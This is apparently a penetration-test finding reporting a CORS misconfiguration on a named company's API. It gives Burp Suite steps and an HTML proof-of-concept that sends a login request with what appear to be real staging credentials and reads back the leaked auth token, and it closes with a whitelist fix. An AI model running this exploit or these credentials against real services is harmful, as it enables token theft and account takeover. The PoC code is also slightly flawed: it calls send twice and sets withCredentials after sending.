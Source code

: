 # Cross Origin Resource Sharing

### **Vulnerable API:**

All

### **Severity:**

Medium

### **Description:**

While testing all the responses by the help POSTMAN and BURP SUITE, Access-Control-Allow-Origin was set to ‘origin’, hence this allowed an arbitrary user to intercept the request and add an extra ‘Origin’ header with a value of any random website like ‘[https://bing.com](https://bing.com)’. This can allow an attacker to steal sensitive information which is being parsed by JSON on the page.\


### **Steps:**

1.Open postman and set its proxy to burp suite. Load the API and forward the request. Make sure Burp Interceptor is ON.

2.Once you click on ‘SEND’ in POSTMAN you will be prompted in BURP for the request in the interceptor.

3.Move this request to Repeater and add an extra header in the request like. **Origin: https://iamvulnerable.com**

****

![Check For CORS](https://lh5.googleusercontent.com/\_kzMZ5lV1vT4VrbD\_ejMqOBYAWq8saCupcHVczU0h6OY-qYpWinu5d8V12JdiK4MPyZ8h6DoiQG\_XMDPFsSPfWkH5n83xFftrU986s7RT9UIT8dXuL7MQhn1\_dNKIjPzrpDHChd5)

4\. As you can see that the response is reflecting our “ORIGIN” header, hence to exploit this follow the below HTML doc.\


```markup
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
<div id="demo">
<button type="button" onclick="cors()">Exploit POST Based JSON CORS</button>
</div>
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("POST", "https://signzy.tech/api/v2/patrons/login", true);
  xhttp.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xhttp.send(JSON.stringify({"username": "signzystaging","password" :"bhai"}));
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>
```

\


6\. Saving and Running the file will result in running the script which leaks authToken to next API.\


![AuthToken and PatronID Leak Using CORS](https://lh4.googleusercontent.com/CUX1RFciPycPlv9HLmoFmwS050xRjpxuFcNM-F28ySfuorWx3qwv-pN46IZORTqcs5kxtalwXsJWD83wiejMvad0PymHECJ4g471sWocQY8r0bzWe\_N97Y5mEig9WGbTxyay3K9l)

7\. As you can see that this information leak was on Authentication API, but this particular vulnerability is actually possible in all the API request , resulting in leak of sensitive information like Authentication  Token.

### Impact:

Sensitive information leak due to CORS can be exploited.

### Solution:

Use of `Access-Control-Allow-Origin` should  be used only for the white listed domains, also we can define a function to cross check the referer header and the origin header.\
